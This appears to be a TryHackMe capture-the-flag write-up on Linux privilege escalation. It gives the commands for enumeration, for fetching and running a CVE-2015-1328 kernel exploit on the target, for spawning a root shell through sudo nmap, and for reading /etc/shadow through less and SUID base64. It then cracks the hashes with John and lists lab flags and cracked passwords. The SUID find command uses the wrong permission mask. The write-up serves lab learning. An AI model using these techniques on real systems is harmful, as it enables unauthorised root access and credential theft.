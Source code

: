 # Linux Privilege Escalation
Learn the fundamentals of Linux privilege escalation. From enumeration to exploitation, get hands-on with over 8 different privilege escalation techniques.
## Enumeration
what is the hostname of the target system
```
$ hostname
$ wade7363
```
What is the linux kernel version of the target system.
</br>
The `uname` command gives system information, and with `-r` switch, it gives the kernel release.
```
$ uname -r
$ 3.13.0.24-generic
```
What Linux is this.
</br>
we can view the OS name through either `neofetch` or `/etc/os-release`
```
$ cat /etc/os-release
NAME = "Ubuntu Linux"
```
What version of the Python Language is installed on the system
```
$ python --version
2.7.6
```
What vulnerability seems to affect the kernel of the target system? (Enter CVE number)
+ Copy the kernel version obtained earlier
+ Search the CVE number on databases like exploit-db by pasting the version + keyword "CVE" on google
+ Download and run the code on the remote machine
```
CVE-2015-1328
```
## Privilege escalation: kernel exploits
On local machine: 
http.server is being used because only machines within the tryhackme network can be used with `wget`
```
$ wget https://www.exploit-db.com/download/37292 > exploit.c && mv exploit.c /tmp
$ python -m http.server 12000
$ ip addr
(copy tun0 IP)
```
On remote machine:
```
$ wget http://HOST_IP:12000 
$ gcc exploit.c && ./a.out
```
What is the content of the flag1.txt?
```
THM-28392872729920
```
## Privilege escalation: sudo
How many programs can the user "karen" run on the target system with sudo rights?
```
$ sudo -l
```
Answer: 3

What is the content of the flag2.txt?
```
$ cat /home/ubuntu/flag2.txt
THM-402028394
```
How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

we will find this in here: https://gtfobins.github.io/gtfobins/nmap/
```
$ sudo nmap --interactive
```
what is the hash of frank's password?
`less` has root permisssions
```
$ sudo less /etc/shadow
$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLH
```
## Pirivlege escalation: SUID
SUID is basically a file permission used to read/write/execute files as root, only a specific user has root access to the files
+ Finding out packages with SUID set
```
$ find / -type f -perm -0400 2> /dev/null
```
we can use base64 because it has the SUID bit
```
$ base64 /etc/shadow | base64 --decode
$ base64 /etc/passwd | base64 --decode
```
+ Copy down the outputs into files `passwd.txt` and `shadow.txt` 
+ Use the `unshadow` package to combine both
+ Use `John the ripper`
```
$ unshadow passwd.txt shadow.txt > passwords.txt
$ john passwords.txt
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
test123          (gerryconway)
Password1        (karen)
Password1        (user2)
```
Which user shares the name of a great comic book writer?
</br>
gerryconway
</br>
What is the password of user2?
</br>
Password1   
</br>
What is the content of the flag3.txt file?
```
$ ssh user2@MACHINE_IP
$ cd /home/Ubuntu
$ base64 flag3.txt | base64 --decode
```

